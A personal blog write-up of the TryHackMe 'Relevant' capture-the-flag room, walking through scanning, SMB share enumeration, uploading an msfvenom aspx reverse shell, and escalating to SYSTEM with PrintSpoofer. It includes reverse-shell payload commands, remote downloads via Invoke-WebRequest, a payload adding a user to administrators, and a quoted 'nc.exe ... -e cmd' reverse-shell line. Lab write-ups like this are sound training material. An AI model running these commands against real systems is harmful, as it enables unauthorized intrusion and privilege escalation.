

Relevant_Writeup.sh
Sep. 9, 2020
Relevant - THM Room
This is another writeup, this time for ‘Relevant’ TryhackMe’s room. This is a writeup detailing all my process to root this room, flaws and all. I embrace mistakes and try to learn from them, therefore this post also includes my failed attempts. You have been warned :)
PS: I’m gonna be adding the penetration testing report for this room soon. I need to put in all the information, vulnerabilities, and any other information that could mimic a real-world report for a pentest assessment. Anyways, thanks for stopping by. Leave a comment, leave your feedback or suggestions. Have a great day!
Enjoy!
- Please visit This room on TryHackMe by clicking this link.
- PLEASE NOTE: Passwords, flag values, or any kind of answers to the room questions were intentionally masked as required by THM writeups rules. The write-up follows my step by step solution to this box, errors, and all. They are usually long 😆
Introduction and Scope of Testing
We’ve been hired by a client that requests a penetration testing assessment before a product go-live date.
- The scope is limited to the Room Machine IP only.
- Any Tools are available. However, the client would like us to attempt manual approaches first.
- We need to deliver proof of exploitation by locating two flag values
root.txtanduser.txt
Additionally, we are encouraged to treat this as a real-world assessment, therefore we’ll be generating the penetration testing report as well. Though it will be created after we hack this room and possibly posted in a different writeup since it is a whole process in itself.
Let’s hack!
Enumeration
Let’s start by running an nmap scan:
┌──(kali㉿kali)-[~/Documents/THM/relevant]
└─$ sudo nmap -A -Pn -p- -T4 10.10.8.249 -oX nmap_results 130 ⨯
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-10 10:26 EDT
Nmap scan report for 10.10.8.249
Host is up (0.38s latency).
Not shown: 65527 filtered ports
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 10.0
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp open ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
| Target_Name: RELEVANT
| NetBIOS_Domain_Name: RELEVANT
| NetBIOS_Computer_Name: RELEVANT
| DNS_Domain_Name: Relevant
| DNS_Computer_Name: Relevant
| Product_Version: 10.0.14393
|_ System_Time: 2020-09-10T14:39:09+00:00
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2020-07-24T23:16:08
|_Not valid after: 2021-01-23T23:16:08
|_ssl-date: 2020-09-10T14:39:49+00:00; +54s from scanner time.
49663/tcp open http Microsoft IIS httpd 10.0
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
49666/tcp open msrpc Microsoft Windows RPC
49668/tcp open msrpc Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|2016 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2012 R2 (92%), Microsoft Windows Server 2016 (88%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 1h24m54s, deviation: 3h07m51s, median: 53s
| smb-os-discovery:
| OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
| Computer name: Relevant
| NetBIOS computer name: RELEVANT\x00
| Workgroup: WORKGROUP\x00
|_ System time: 2020-09-10T07:39:10-07:00
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
| smb2-security-mode:
| 2.02:
|_ Message signing enabled but not required
| smb2-time:
| date: 2020-09-10T14:39:12
|_ start_date: 2020-09-10T13:55:15
TRACEROUTE (using port 135/tcp)
HOP RTT ADDRESS
1 240.07 ms 10.13.0.1
2 ... 3
4 378.58 ms 10.10.8.249
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 749.75 seconds
I’m gonna also start a nikto scan:
┌──(kali㉿kali)-[~/Documents/THM/relevant]
└─$ sudo nikto -h 10.10.50.208
[sudo] password for kali:
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP: 10.10.50.208
+ Target Hostname: 10.10.50.208
+ Target Port: 80
+ Start Time: 2020-09-10 18:41:22 (GMT-4)
---------------------------------------------------------------------------
+ Server: Microsoft-IIS/10.0
+ Retrieved x-powered-by header: ASP.NET
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-aspnet-version header: 4.0.30319
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST
+ Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST
+ ERROR: Error limit (20) reached for host, giving up. Last error: opening stream: can't connect (timeout): Operation now in progress
+ Scan terminated: 19 error(s) and 7 item(s) reported on remote host
+ End Time: 2020-09-10 19:10:23 (GMT-4) (1741 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
And I also try to enum the SMB shares:
┌──(kali㉿kali)-[~/Documents/THM/relevant]
└─$ sudo nmap --script smb-enum-shares -p139,445 -T4 -Pn 10.10.91.158 143 ⨯
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-10 11:34 EDT
Nmap scan report for 10.10.91.158
Host is up (0.35s latency).
PORT STATE SERVICE
139/tcp open netbios-ssn
445/tcp open microsoft-ds
Host script results:
| smb-enum-shares:
| account_used: guest
| \\10.10.91.158\ADMIN$:
| Type: STYPE_DISKTREE_HIDDEN
| Comment: Remote Admin
| Anonymous access: <none>
| Current user access: <none>
| \\10.10.91.158\C$:
| Type: STYPE_DISKTREE_HIDDEN
| Comment: Default share
| Anonymous access: <none>
| Current user access: <none>
| \\10.10.91.158\IPC$:
| Type: STYPE_IPC_HIDDEN
| Comment: Remote IPC
| Anonymous access: <none>
| Current user access: READ/WRITE
| \\10.10.91.158\nt4wrksv:
| Type: STYPE_DISKTREE
| Comment:
| Anonymous access: <none>
|_ Current user access: READ/WRITE
Nmap done: 1 IP address (1 host up) scanned in 85.56 seconds
We run another scan with nmap to see if the SMB is vulnerable to common vulns:
┌──(kali㉿kali)-[~/Documents/THM/relevant]
└─$ nmap --script=smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-cve-2017-7494.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-ms17-010.nse,smb-vuln-regsvc-dos.nse -p445 10.10.244.137
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-10 12:48 EDT
Nmap scan report for 10.10.244.137
Host is up (0.37s latency).
PORT STATE SERVICE
445/tcp open microsoft-ds
Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010:
| VULNERABLE:
| Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
| State: VULNERABLE
| IDs: CVE:CVE-2017-0143
| Risk factor: HIGH
| A critical remote code execution vulnerability exists in Microsoft SMBv1
| servers (ms17-010).
|
| Disclosure date: 2017-03-14
| References:
| https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
| https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
Nmap done: 1 IP address (1 host up) scanned in 16.44 seconds
We have our first lead, the SMB seems vulnerable to CVE-2017-0143. However, we’ll continue doing some recon before we attempt to exploit anything. I want to have a better idea of the host we are dealing with.
We did enum the SMB shares but we did not look into the files on them yet. Let’s try that next, I checked all shares and we can anonymously access two of them IPC$ and nt4wrksv. The first one didn’t have anything useful as far I as could tell. The second one does have a passwords.txt file. I downloaded that file.
┌──(kali㉿kali)-[~/Documents/THM/relevant]
└─$ smbclient //10.10.50.208/nt4wrksv -U annonymous
Enter WORKGROUP\annonymous's password:
Try "help" to get a list of possible commands.
smb: \> ls
. D 0 Sat Jul 25 17:46:04 2020
.. D 0 Sat Jul 25 17:46:04 2020
passwords.txt A 98 Sat Jul 25 11:15:33 2020
7735807 blocks of size 4096. 5128752 blocks available
smb: \> cat password.txt
cat: command not found
smb: \> mget passwords.txt
Get file passwords.txt? y
getting file \passwords.txt of size 98 as passwords.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \>
When we inspect the file we just downloaded, we see we have some encoded data. Let’s try to find out exactly what we are dealing with here:
passwords.txt
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
I use Cyberchef to try to detect the encoding used on this data, after a first glance we see some format similarities with base64 encoding.

Once we use Cyberchef (from Base64 op) we get some credentials:

Decoded Credentials
Bob - !P@$$W0rD!123Bill - Juw4nnaM4n420696969!$$$
Could we use those credentials to log into the ADMIN$ SMB share?
┌──(kali㉿kali)-[~/Documents/THM/relevant]
└─$ smbclient //10.10.50.208/ADMIN$ -U Bob
Enter WORKGROUP\Bob's password:
tree connect failed: NT_STATUS_ACCESS_DENIED
┌──(kali㉿kali)-[~/Documents/THM/relevant]
└─$ smbclient //10.10.50.208/ADMIN$ -U bob 1 ⨯
Enter WORKGROUP\bob's password:
tree connect failed: NT_STATUS_ACCESS_DENIED
Hmmm, we get access denied error, maybe it was too good to be true. Let’s try the other username and if we don’t get access let’s continue our enumeration.
┌──(kali㉿kali)-[~/Documents/THM/relevant]
└─$ smbclient //10.10.50.208/ADMIN$ -U bill 1 ⨯
Enter WORKGROUP\bill's password:
tree connect failed: NT_STATUS_ACCESS_DENIED
┌──(kali㉿kali)-[~/Documents/THM/relevant]
└─$ smbclient //10.10.50.208/ADMIN$ -U Bill 1 ⨯
Enter WORKGROUP\Bill's password:
tree connect failed: NT_STATUS_ACCESS_DENIED
I get the same access denied with Bill’s user. Let me try real quick to other SMB share C$.
I’ll spare you the reading, that did not work either ACCESS DENIED. So at this point, it is safe to assume those credentials are just decoys to probably try to steer us away from our objective.
Let’s continue our enumeration efforts by running some gobuster on both ports we’ve found to be serving a page: 80 and 49663.
I actually started 3 different scans, each using a different tool and wordlist (not sure how much of a good idea this was). I started Gobuster with a Medium directory wordlist, dirb with the common wordlist, and finally Dirbuster with the small wordlist.

Notice all scans are against port 49663 since I initially ran gobuster on port 80 and found nothing.
The first scan to return a directory is the one being run with dirb: ==> DIRECTORY: http://10.10.36.157:49663/aspnet_client/
After googling a bit it seems to be a default directory created by IIS, not really sure if this points to any possible exploitation here.
More info on the **aspnet_client** folder
We’ll take note of this for our report (yep, I’m creating the pentest report as well. I’ll have that attached to this post don’t worry.).
Dirbuster did not find anything using the small wordlist, Gobuster is still running…
15 minutes later we have some Gobuster results:
┌──(kali㉿kali)-[~/Documents/THM/relevant]
└─$ gobuster dir -u http://10.10.36.157:49663 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url: http://10.10.36.157:49663
[+] Threads: 40
[+] Wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes: 200,204,301,302,307,401,403
[+] User Agent: gobuster/3.0.1
[+] Timeout: 10s
===============================================================
2020/09/11 14:40:54 Starting gobuster
===============================================================
[ERROR] 2020/09/11 14:48:13 [!] Get http://10.10.36.157:49663/dialect: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:13 [!] Get http://10.10.36.157:49663/homesite: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:13 [!] Get http://10.10.36.157:49663/alive-proxy: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:13 [!] Get http://10.10.36.157:49663/geeky: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:13 [!] Get http://10.10.36.157:49663/msg00263: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:13 [!] Get http://10.10.36.157:49663/idm: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:13 [!] Get http://10.10.36.157:49663/Accounting1: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:13 [!] Get http://10.10.36.157:49663/bizcom: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:13 [!] Get http://10.10.36.157:49663/mpo: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:13 [!] Get http://10.10.36.157:49663/PIMs1: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:13 [!] Get http://10.10.36.157:49663/DesktopThemes1: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:13 [!] Get http://10.10.36.157:49663/ipg: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:13 [!] Get http://10.10.36.157:49663/camerashy: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:13 [!] Get http://10.10.36.157:49663/negroponte: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:13 [!] Get http://10.10.36.157:49663/co-op: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:13 [!] Get http://10.10.36.157:49663/jbe: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:13 [!] Get http://10.10.36.157:49663/242906: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:13 [!] Get http://10.10.36.157:49663/stampa: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:13 [!] Get http://10.10.36.157:49663/rdiff-backup: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:13 [!] Get http://10.10.36.157:49663/msg00289: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:13 [!] Get http://10.10.36.157:49663/registrati: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:14 [!] Get http://10.10.36.157:49663/1931836663: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:14 [!] Get http://10.10.36.157:49663/msg00282: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:14 [!] Get http://10.10.36.157:49663/windows_firewall: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:14 [!] Get http://10.10.36.157:49663/MDaemon-AntiVirus: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:17 [!] Get http://10.10.36.157:49663/ViRobot: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:17 [!] Get http://10.10.36.157:49663/mail-server: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:17 [!] Get http://10.10.36.157:49663/cavs: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:17 [!] Get http://10.10.36.157:49663/ezines: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:17 [!] Get http://10.10.36.157:49663/0072256753: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:17 [!] Get http://10.10.36.157:49663/koops: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:17 [!] Get http://10.10.36.157:49663/level0: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:17 [!] Get http://10.10.36.157:49663/gry_online: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:17 [!] Get http://10.10.36.157:49663/tipsy: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:17 [!] Get http://10.10.36.157:49663/showdetail: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:17 [!] Get http://10.10.36.157:49663/donkiely: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:17 [!] Get http://10.10.36.157:49663/PEN: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:17 [!] Get http://10.10.36.157:49663/czytaj: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:17 [!] Get http://10.10.36.157:49663/tiesto: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:48:17 [!] Get http://10.10.36.157:49663/000264: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:56:23 [!] Get http://10.10.36.157:49663/28755: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:56:23 [!] Get http://10.10.36.157:49663/54874: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 14:56:23 [!] Get http://10.10.36.157:49663/87764: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
/nt4wrksv (Status: 301)
===============================================================
2020/09/11 15:35:38 Finished
===============================================================
After several ERROR logs we get one directory: /nt4wrksv (Status: 301) with the same name as one of the SMB shares we found before. Let’s see if we can do anything there. Since the name is exactly the same as the SMB share, we can speculate that this URL is communicating to that share.
If we recall from our previous SMB enumeration and the files we found there, we know there is a passwords.txt file on that share. Let’s see if we can reach that file via browser:
(Not sure if I’m doing something wrong, or if any of my scans are causing the remote machine deployed on THM to die on me every now and then. First time happening honestly, I doubt there is something wrong with the room. But I have to keep killing and redeploying the machine quite often once it becomes totally unresponsive randomly.)

So far our enum results are these:
- We found the following open ports:
80, 135, 139, 445, 3389, 49663, 49666, 49668
- We found the following SMB shares:
ADMIN$, C$, IPC$, nt4wrksv
- We found the following file on
nt4wrksv:passwords.txtwhich as of this point we can assume it was a decoy.
Before we move on let’s see if we can access any file on that share via the browser. Here is the idea, we’ll connect to the SMB share as we did before when I downloaded the passwords.txt file. But this time we’ll see if we can upload a file into the share and then check if we can access that file via the browser. The idea is to get proof we can potentially upload a malicious file to get a foothold on that server.
Let’s connect to that SMB share and upload anything.
I created a file proof.txt with some text on it, then I connected to the SMB share:
┌──(kali㉿kali)-[~/Documents/THM/relevant]
└─$ smbclient //10.10.184.94/nt4wrksv/ -U annonymous
Enter WORKGROUP\annonymous's password:
Try "help" to get a list of possible commands.
smb: \> put proof.txt
putting file proof.txt as \proof.txt (0.1 kb/s) (average 0.1 kb/s)
smb: \>
Now for the moment of truth, let’s try to get that file using the browser:

There you have it, we have proof that a potential file can be freely uploaded and access. Which means we have READ/WRITE permissions.
Exploitation
We have a possible way of attacking this machine, we need a payload we can upload to get ourselves a reverse shell. Let’s find out how to create an asp payload with msfvenom.
┌──(kali㉿kali)-[~/Documents/THM/relevant]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.13.0.34 LPORT=4444 -f asp > tzshell.asp
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of asp file: 38397 bytes
Now just like we did with proof.txt we upload the tzshell.asp file to the share:
smb: \> put tzshell.asp putting file tzshell.asp as \tzshell.asp (18.9 kb/s) (average 11.7 kb/s)
Let’s open a listener on port 4444 and then try to load that file in the browser:

We get an error and our listener does not pick any connection. Probably our payload was not good.
If we research a bit around MS IIS to see if maybe we can generate a payload in another format. We found out that we could try another format .aspx and craft a new payload with it.
msfvenom -p windows/shell_reverse_tcp LHOST=10.13.0.34 LPORT=4444 -f aspx > tzshell.aspx
I went ahead and uploaded it to the share. Let’s see if this works now.
Remember to ready the listener if you closed it before.
It did not work either. This time the page did not throw any error, just loaded a blank page. However, we did not get any reverse shell. Time to think about this a bit more, what I’m doing wrong?
- Could still be a payload issue? yup, probably.
Or maybe the problem is actually the way we are trying to access the payload… the fact that our proof.txt file can be accessed via the browser might not actually indicate that we can execute our tzshell.aspx via the browser too.
I ended up trying wgeting the file (wtf I’m doing), and curl, neither worked. I think we definitely have a bad payload…

I need to invest a bit more time with msfvenom and see another way of creating an aspx file. I suspect I’m doing something wrong when generating it. Googling around I found a clue, and I had to do with how I generated the payload.
Check the related post on ASP payload generation I mentioned here Though it talks about meterpreter payload, I’m sticking to a plain shell for now.
Let’s see what generated before: msfvenom -p windows/shell_reverse_tcp LHOST=10.13.0.34 LPORT=4444 -f asp > tzshell.asp
You see the problem? I generated a windows/shell_reverse_tcp, I assumed that was the correct setting. But turns out that we also can do this for x64:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.0.34 LPORT=4444 -f aspx > tzshell3.aspx
Let’s generate that payload, upload, and try to run it.
┌──(kali㉿kali)-[~/Documents/THM/relevant]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.0.34 LPORT=4444 -f aspx > tzshell3.aspx 2 ⨯
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3403 bytes
If we try to run this right from the browser, this time it works:

and we get the reverse shell right away:

if we run whoami we get iis apppool\defaultapppool.
We have some initial foothold in this machine now, let’s see if we can look around the files a little. Seems that Bob is a valid username.

If we look into Bob’s Desktop folder we see something the client wants 😄

c:\Users\Bob\Desktop>type user.txt
type user.txt
THM{fdkREDACTEDktf45}
c:\Users\Bob\Desktop>
Of course, if we try to navigate into Administrator we get a fine Acess denied. Let’s try to run winPEAS to do some recon.
I’ll be using winPEAS.bat version (there is a .exe version as well), you can get it here.
I start a simple python -m SimpleHTTPServer 2112 in our fav port.
As I try to wget that file from the rev shell session, the deployed machine stops responding again! I don’t really know what the problem is…

As you can see there is still time left before the VM expires. Maybe is my VPN connection failing and that’s why I lost communication with the VM? I changed to another VPN server location on THM and reconnected. The VM is still not responding, not even ping. I’ll just terminate and redeploy again I guess.
I went ahead and performed all the steps that we saw until I get the reverse shell again. Let’s upload winPEAS and run it. Here another nice thing of this room, neither curl nor wget worked. But we do have Powershell.
Check this page for a bit more on downloading files with Powershell.
Invoke-WebRequest -Uri "http://10.13.0.34:2112/winPEAS.bat" -OutFile "winPEAS.bat"
And this time we succeed. Nothing like the nth time charm 😆

Let’s run that winPEAS.bat thing before anything else happens (looks angrily at the VM expiration timer). The results from this tool are quite large, particularly the Unquoted service paths sections kind of seemed familiar to me. I don’t recall which other room on THM had me exploit those. Let’s try that out
_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] UNQUOTED SERVICE PATHS <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] When the path is not quoted (ex: C:\Program files\soft\new folder\exec.exe) Windows will try to execute first 'C:\Progam.exe', then 'C:\Program Files\soft\new.exe' and finally 'C:\Program Files\soft\new folder\exec.exe'. Try to create 'C:\Program Files\soft\new.exe'
[i] The permissions are also checked and filtered using icacls
[?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
aspnet_state
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\aspnet_state.exe
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\aspnet_state.exe NT SERVICE\TrustedInstaller:(F)
AWSLiteAgent
C:\Program Files\Amazon\XenTools\LiteAgent.exe
Invalid parameter "Files\Amazon\XenTools\LiteAgent.exe"
NetTcpPortSharing
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe NT SERVICE\TrustedInstaller:(F)
PerfHost
C:\Windows\SysWow64\perfhost.exe
C:\Windows\SysWow64\perfhost.exe NT SERVICE\TrustedInstaller:(F)
PsShutdownSvc
C:\Windows\PSSDNSVC.EXE
C:\Windows\PSSDNSVC.EXE NT AUTHORITY\SYSTEM:(I)(F)
TrustedInstaller
C:\Windows\servicing\TrustedInstaller.exe
C:\Windows\servicing\TrustedInstaller.exe NT SERVICE\TrustedInstaller:(F)
Let’s try that then, we need to create a new payload that needs to be a service with some name that we can exploit from one of those available unquoted service names.
We can create a payload with msfvenom:
msfvenom -p windows/exec CMD="net localgroup administrators defaultapppool /add" -f exe-service -o xentools.exe
Let’s break this down a bit. We need to make sure we add the user to the administrator’s group, and we need to carefully choose the file name. Let’s try this one AWSLiteAgent C:\Program Files\Amazon\XenTools\LiteAgent.exe so we’ll call or payload file xentools.exe
We use Powershell once again to upload the payload to the machine:
Invoke-WebRequest -Uri "http://10.13.0.34:2112/xentools.exe" -OutFile "C:/Program Files/Amazon/"
We are able to successfully upload our payload:

If we look at the services net start we get the following:

However, we don’t have permission to start/stop services…
And guess what? the VM died on me again. 😢
I have been sitting at this PC from 9AM to 6PM for work, then picked this room up from where I left last night. I’m super tired, can’t think honestly. Not-fun fact: I suffer migraines, really bad ones. I need to take some time off the screen. I’ll continue tomorrow.

Let’s continue with this awesome room. We need to figure out a way to exploit this machine to get ourselves root, obviously. But how can we achieve that? Looking back at the results from winPEAS we see something interesting:
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token Disabled
SeIncreaseQuotaPrivilege Adjust memory quotas for a process Disabled
SeAuditPrivilege Generate security audits Disabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeImpersonatePrivilege Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
We seem to have a SeImpersonatePrivilege Impersonate a client after authentication Enabled, which we could potentially try to exploit.
Searching around I find this link on the awesome hacktricks book, check it here. The attack is called rotten potato and I’m not really familiar with what it does.
Luckily there is a link that explains this in-depth, here.
The idea behind this vulnerability is simple to describe at a high-level:
- Trick the “NT AUTHORITY\SYSTEM” account into authenticating via NTLM to a TCP endpoint we control.
- Man-in-the-middle this authentication attempt (NTLM relay) to locally negotiate a security token for the “NT AUTHORITY\SYSTEM” account. This is done through a series of Windows API calls.
- Impersonate the token we have just negotiated. This can only be done if the attacker’s current account has the privilege to impersonate security tokens. This is usually true of most service accounts and not true of most user-level accounts.
I’m not sure if we should proceed with that, it could very well be another decoy. Let me research around a bit more to see if there is any other way to exploit the same.
There is a tool for this, called RogueWinRM located here that looks interesting and pretty straightforward. Let’s reopen our rev shell session, upload the exploit, and try to execute it.
Yup, it does not work. After I few tries I get the target is not exploitable by this exploit:
Listening for connection on port 5985 ....
Error: WinRM already running on port 5985. Unexploitable!
bind failed with error: 10013
Let’s google some more and see if there is another tool out there. It seems there is another similar tool called PrintSpoofer that you can get here.
I’m gonna quickly try this one as well, I downloaded PrintSpoofer64.exe and upload it to the server.
we get some examples of how privesc with this tool:
Examples:
- Run PowerShell as SYSTEM in the current console
PrintSpoofer.exe -i -c powershell.exe
- Spawn a SYSTEM command prompt on the desktop of the session 1
PrintSpoofer.exe -d 1 -c cmd.exe
- Get a SYSTEM reverse shell
PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.13.37 1337 -e cmd"
We know Powershell is installed, let’s try that route by running: PrintSpoofer64.exe -i -c powershell.exe
It works! we have gained SYSTEM privileges

I can’t fucking believe this, the VM died on my again!! right after the last step… 😢

I guess this room is a lesson on patience, perseverance, and decoy detection… Let’s terminate and redeploy.
I’m gonna do this part super fast which means I won’t be stopping to document much. Just know that I will basically re-do all steps to get nt authority\system permissions again. So it should all be documented well enough already.
We did it, we got root and we got the last flag for the room:

This was a tough one! I had to learn a lot to solve this one, made a lot of mistakes and even fall victim of some nice decoys set by TheMayor. This is honestly a great room, had to spent a couple of days to get through it. I don’t really know if I have some connection issues with this particular box or if maybe I was doing something wrong that ended up causing the VM to block me somehow. if you know what I did wrong please leave a comment, I’d love to read what you think of my writeups guys. I tried to learn from my mistakes, I’m quite new at this and I’m constantly learning new things to get better. Any advice or feedback would be greatly appreciated. Thanks to you for reading and thanks to TheMayor for this awesome room.
I’m gonna take some time to prep the report for this room, I’m gonna be using the template shared by TheCyberMentor most likely. Once I have that ready I’ll attach the report here.
Thank you and Happy hacking!
comments powered by Disqus